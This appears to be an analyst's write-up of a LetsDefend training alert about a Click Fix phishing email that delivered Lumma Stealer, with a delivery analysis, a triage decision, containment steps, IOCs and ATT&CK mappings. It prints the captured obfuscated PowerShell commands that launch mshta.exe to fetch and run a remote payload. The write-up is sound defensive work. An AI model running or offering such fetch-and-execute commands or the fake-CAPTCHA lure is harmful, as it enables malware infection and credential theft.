








### <span class="hl">Alert</span>
```
EventID :              316
Event Time :           Mar, 13, 2025, 09:44 AM
Rule :                 SOC338 - Lumma Stealer - DLL Side-Loading via Click Fix Phishing
Level :                Security Analyst
SMTP Address :         132.232.40.201
Source Address :       update@windows-update.site
Destination Address :  dylan@letsdefend.io
E-mail Subject :       Upgrade your system to Windows 11 Pro for FREE
Device Action :        Allowed
Trigger Reason :       Redirected site contains a click fix type script for Lumma Stealer distribution.
```
### <span style="color:red">Identification</span>

#### <span class="hl">What was the delivery vector?</span>

The phishing email arrived from `update@windows-update.site` (SMTP `132.232.40.201`) to `dylan@letsdefend.io` at **09:44 AM** - nearly 14 hours before execution, suggesting the user opened it later in the day. The email body impersonated an official Microsoft notification offering a free Windows 11 Pro upgrade with a prominent "UPDATE NOW" button.



The "UPDATE NOW" button linked to `https://www.windows-update.site/`. I checked the domain on VirusTotal - **11/95 vendors** flagged it as malicious.



#### <span class="hl">Did the user interact?</span>

Proxy logs confirmed that at **Mar 13, 2025, 23:26** Dylan's host (`172.16.17.216`) accessed `https://windows-update.site/` with a referrer of `https://mail.letsdefend.io/` - confirming the user clicked the link directly from webmail.



#### <span class="hl">What type of attack was attempted?</span>

This is a **Click Fix** phishing attack - a technique where a malicious webpage presents a fake CAPTCHA or verification prompt instructing the user to manually copy and paste a PowerShell command into a Run dialog or terminal. The "I am not a robot - reCAPTCHA Verification ID" string embedded in the command confirms this pattern. The page presented the user with an obfuscated command disguised as a verification step:

```powershell
Mar 13 2025 23:26:19
"C:\Windows\system32\WindowsPowerShell\v1.0\PowerShell.exe" -w 1 powershell -Command
('ms]]]ht]]]a]]].]]]exe https://overcoatpassably.shop/Z8UZbPyVpGfdRS/maloy.mp4' -replace ']')
# ✅ ''I am not a robot - reCAPTCHA Verification ID: 3824

Mar 13 2025 23:26:31
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -Command
"mshta.exe https://overcoatpassably.shop/Z8UZbPyVpGfdRS/maloy.mp4"

Mar 13 2025 23:26:32
"C:\Windows\system32\WindowsPowerShell\v1.0\PowerShell.exe" -w 1 powershell -Command
('ms]]]ht]]]a]]].]]]exe https://overcoatpassably.shop/Z8UZbPyVpGfdRS/maloy.mp4' -replace ']')
# ✅ ''I am not a robot - reCAPTCHA Verification ID: 3824''
```

The `-replace ']'` call strips the bracket characters used to obfuscate `mshta.exe`, producing a clean command. **mshta.exe** is a legitimate Windows binary used to execute HTML Applications - abusing it as a LOLBin allows the attacker to fetch and execute remote content without writing a traditional executable to disk. The payload URL `https://overcoatpassably.shop/Z8UZbPyVpGfdRS/maloy.mp4` disguises the payload as a video file.

Network activity confirmed mshta.exe (PID 7284) made a GET request to the payload URL.



I submitted the URL to VirusTotal - **13/95 vendors** flagged `https://overcoatpassably.shop/Z8UZbPyVpGfdRS/maloy.mp4` as malicious, confirming it as the Lumma Stealer payload.



Following mshta.exe execution, the host made connections to `132.232.40.201` (the phishing domain) and `35.190.80.1`. AbuseIPDB identified `35.190.80.1` as belonging to **Google LLC CDN** - attackers commonly abuse legitimate CDN infrastructure to host payloads and blend C2 traffic with normal web activity.




#### <span class="hl">Did anyone else get targeted?</span>

Mail logs show the phishing email was delivered exclusively to `dylan@letsdefend.io`. No other recipients were identified.

#### <span class="hl">Did the attack succeed?</span>

The payload was downloaded and executed via mshta.exe. Lumma Stealer is a credential and data theft tool - given successful payload execution, data exfiltration should be assumed until forensic analysis confirms otherwise. The host was contained before persistent C2 communication was confirmed.

### <span style="color:red">Triage Decision</span>

**True Positive.** Click Fix phishing led to direct user execution of a PowerShell command, which launched mshta.exe to download and execute a confirmed malicious payload identified as Lumma Stealer. **Escalated to L2** for memory acquisition and credential rotation.

#### <span class="hl">What is the impact level?</span>

High. Lumma Stealer targets browser credentials, session cookies, cryptocurrency wallets, and stored passwords. Successful execution on Dylan's host means any credentials stored in the browser or credential manager should be considered compromised pending L2 investigation.

### <span style="color:red">Containment</span>

#### <span class="hl">Is the attacker still active?</span>

mshta.exe executed the payload and network connections to `35.190.80.1` were observed. Until L2 confirms whether Lumma Stealer established persistence or completed exfiltration, the attacker should be considered potentially active.

#### <span class="hl">Is the endpoint still exposed?</span>

No. Host Dylan (`172.16.17.216`) was isolated via the Containment toggle in the endpoint management console.



#### <span class="hl">Actions taken</span>

Host Dylan (`172.16.17.216`) was contained. Domain `windows-update[.]site` and SMTP IP `132.232.40.201` were blocked at the email gateway and DNS level. Domain `overcoatpassably[.]shop` was blocked at the proxy. Case escalated to L2 for memory acquisition, browser credential rotation, and assessment of data exfiltration scope.

### <span class="hl">IOCs</span>

| Type | Value | Description |
|------|-------|-------------|
| Email | `update@windows-update[.]site` | phishing sender |
| IP | `132.232.40.201` | phishing SMTP and domain hosting |
| IP | `35.190.80.1` | Google CDN - possible payload/C2 hosting |
| Domain | `windows-update[.]site` | phishing domain, 11/95 VT |
| URL | `hxxps://overcoatpassably[.]shop/Z8UZbPyVpGfdRS/maloy.mp4` | Lumma Stealer payload, 13/95 VT |
| Host | `Dylan` (172.16.17.216) | compromised endpoint |
| Account | `dylan@letsdefend.io` | targeted and compromised account |
| Process | `mshta.exe` PID 7284 | LOLBin used to fetch and execute payload |

### <span class="hl">MITRE ATT&CK</span>

| Tactic | Technique | ID |
|--------|-----------|----|
| Initial Access | Phishing: Spearphishing Link | T1566.002 |
| Execution | User Execution: Malicious Link | T1204.001 |
| Execution | Command and Scripting Interpreter: PowerShell | T1059.001 |
| Defense Evasion | System Binary Proxy Execution: Mshta | T1218.005 |
| Defense Evasion | Obfuscated Files or Information | T1027 |
| Credential Access | Steal Web Session Cookie | T1539 |
| Collection | Data from Local System | T1005 |
| Command and Control | Ingress Tool Transfer | T1105 |